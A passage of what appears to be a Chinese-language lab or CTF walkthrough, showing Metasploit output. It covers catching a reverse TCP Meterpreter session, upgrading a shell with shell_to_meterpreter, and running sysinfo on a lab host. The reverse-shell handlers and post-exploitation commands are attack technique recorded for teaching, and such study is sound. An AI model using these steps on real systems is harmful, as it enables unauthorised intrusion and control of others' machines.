 

反向 shell 连接成功

```
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.10.10:8080 
[*] Sending stage (58073 bytes) to 10.10.10.103
[*] Meterpreter session 1 opened (10.10.10.10:8080 -> 10.10.10.103:58936) at 2025-03-02 10:41:02 +0000

meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > 
```



提升会话

```
msf6 exploit(multi/handler) > sessions -u 1 
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]
[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api, stdapi_sys_process_kill
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.10.10:4433 
[*] Command stager progress: 100.00% (773/773 bytes)

[*] Sending stage (1017704 bytes) to 10.10.10.103
msf6 exploit(multi/handler) > [*] Meterpreter session 2 opened (10.10.10.10:4433 -> 10.10.10.103:34140) at 2025-03-02 10:42:20 +0000
[*] Stopping exploit/multi/handler

msf6 exploit(multi/handler) > 
```



通过 Meterpreter 收集信息

```
msf6 exploit(multi/handler) > sessions -i 2 
[*] Starting interaction with 2...

meterpreter > sysinfo 
Computer     : 10.10.10.103
OS           : Ubuntu 20.04 (Linux 5.11.0-34-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```



在 /home 路径下存在两个用户

